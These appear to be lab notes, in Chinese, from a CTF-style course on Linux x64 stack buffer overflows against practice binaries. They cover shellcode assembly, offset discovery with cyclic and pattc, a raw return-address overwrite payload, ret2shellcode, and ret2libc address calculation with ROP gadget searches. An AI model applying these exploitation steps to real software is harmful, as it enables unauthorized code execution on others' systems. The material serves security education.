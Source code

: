 # Linux Binary Exploitation - BOF

- Env: Ubuntu Linux x64

## Practice

### hello.s

- Hello World!

```
# 編寫 x64 Assembly
sudo apt install nasm
nasm -felf64 hello.s -o hello.o
ld -m elf_x86_64 hello.o -o hello
./hello

# 產生shellcode
objcopy -O binary hello shellcode.bin
xxd shellcode.bin
```

### shell.s

- 硬幹shellcode

```
nasm -felf64 shell.s -o shell.o
ld -m elf_x86_64 shell.o -o shell
./shell

objcopy -O binary shell shellcode.bin
xxd shellcode.bin
```

### getshell.py

- 用 x64 Assembly + pwntools 組譯一段 shellcode
- python getshell.py

### test_shellcode.c 

- 測試shellcode可不可以用
- gcc -z execstack -g test_shellcode.c
- ./a.out

## Lab 1, [practice] bof, Return To Text

### 找函數位址?

- gdb: x/i www
    - gdb-peda$ x/i www
    - 0x400686 <www>:	push   rbp
- objdump -D <file> 去找

### 要怎麼知道塞多少個才能剛好塞到EIP

1. aaaaaaaabbbbbbbb 8個一組自己慢慢定位
2. pwntool : cyclic /cyclic_find
3. gdb-peda : pattc / patto

### 實例

```python=
from pwn import *
cyclic(200) # 會輸出一堆垃圾，從gdb執行後貼入，複製stack最上層隨便幾個字到下面func
from pwn import *
cyclic_find('crash後stack上最上面之字') # 4bytes即可(4個char)
```

```shell=
# gdb-peda進去之後
pattc 200 # 垃圾，複製起來
r # run 並貼上，會爛掉，取stack上之最前面4bytes
patto AA0AAFAA # 會告訴你offset多少
```

### 知道資訊後開始寫破解程式

- 塞40個，return address改成www()之address
- echo -ne "aaaaaaaabbbbbbbbccccccccddddddddeeeeeeee\x86\x06\x40\x00\x00\x00\x00\x00" > exp.bin
- cat exp.bin - | ./bof
- 也可用gdb寫到裡面
    - gdb-peda$ r < exp.bin
- 用ncat叫起來，再自己破解(有點麻煩)

### 用pwntools

- python 01-local.py

## Lab 2, [practice] ret2sc, Return to Shellcode

- 先玩玩程式，有兩個輸入。第一個有限長度，第二個可以overflow。

```
objdump 02-ret2sc-a6a74cce51b034b6570e5416a38973c195d1b414 -d -M intel | less

# 發現 應該有個data段的變數 位址是 0x601080 固定的
# 第一個輸入就可以輸入shell

# 第二個輸入希望蓋過retrun address 改成 0x601080
# 所以 要塞多少個垃圾才能蓋掉return address？

# 一樣先gdb
gdb-peda$ pattc 300
# 將輸出複製 run 之後貼上

# 取前面幾bytes
gdb-peda$ patto %bA%1A%G
%bA%1A%G found at offset: 248
# 得知是248bytes
# 寫 python囉
python 02-local.py
```

## Lab 3, [practice] ret2lib, Return to Lib

- 因ASLR防護，自幾定位libc在哪邊!
- 玩玩程式，有兩個輸入，第一個就印出memory，可以拿來leak。第二個輸入太長會overflow。

```
objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep puts

# 一樣gdb進去後先玩
gdb-peda$ r
Starting program: /home/hsu/ctf-adl/ntu/10-06/03-ret2lib-8dae1f5fdb78457da8190155c8ea5643f5139991
What do you want to see in memory?
address(hex):400000
content:0x10102464c457f
What's your name ?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Thank you ~ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Program received signal SIGSEGV, Segmentation fault.

gdb-peda$ pattc 100

gdb-peda$ patto AcAA2AAH
AcAA2AAH found at offset: 56
# 56 bytes即可蓋過ret

# 發現NX有開，ASLR也有開
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

# 要先這樣才能繼續玩
export LD_PRELOAD='./libc.so.6'

# 先看看
gdb-peda$ disassemble main
# 看一下puts function好了
gdb-peda$ elfsymbol
Found 7 symbols
puts@plt = 0x400560
printf@plt = 0x400570
read@plt = 0x400580
__libc_start_main@plt = 0x400590
strtoll@plt = 0x4005a0
gets@plt = 0x4005b0
setvbuf@plt = 0x4005c0
# 過去看一下，發現GOT在0x601018這個位址
gdb-peda$ disassemble 0x400560
Dump of assembler code for function puts@plt:
   0x0000000000400560 <+0>:	jmp    QWORD PTR [rip+0x200ab2]        # 0x601018
   0x0000000000400566 <+6>:	push   0x0
   0x000000000040056b <+11>:	jmp    0x400550
End of assembler dump.
# 顯示一下0x601018內容是啥(run之後才會有)
gdb-peda$ x/x 0x601018
0x601018:	0x00007ffff7a7c690
# 在反組譯發現是puts
gdb-peda$ disassemble 0x00007ffff7a7c690
Dump of assembler code for function puts:
...

# 找一下libc中的位址
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
# 記一下位址
objdump -T libc.so.6 | grep puts # 0x6f690
objdump -T libc.so.6 | grep system # 0x45390
# 用puts算libc base: 0x7ffff7a7c690 - 0x6f690 = 0x7ffff7a0d000
# system位址: 0x7ffff7a0d000 + 0x45390 = 0x7ffff7a52390
# /bin/sh offset: 0x7ffff7b99d17 - 0x7ffff7a0d000 = 0x18cd17

# pop rdi, ret 的address
gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x00400823 : (b'5fc3')	pop rdi; ret
gdb-peda$ ropsearch "ret"
Searching for ROP gadget: 'ret' in: binary ranges
0x00400541 : (b'c3')	ret
0x004006fb : (b'c3')	ret
0x00400824 : (b'c3')	ret
0x004007b5 : (b'c3')	ret
0x00400641 : (b'c3')	ret
0x00400689 : (b'c3')	ret
0x004006ab : (b'c3')	ret
0x00400831 : (b'c3')	ret
0x0040083c : (b'c3')	ret
0x0040080f : (b'c3')	ret
```
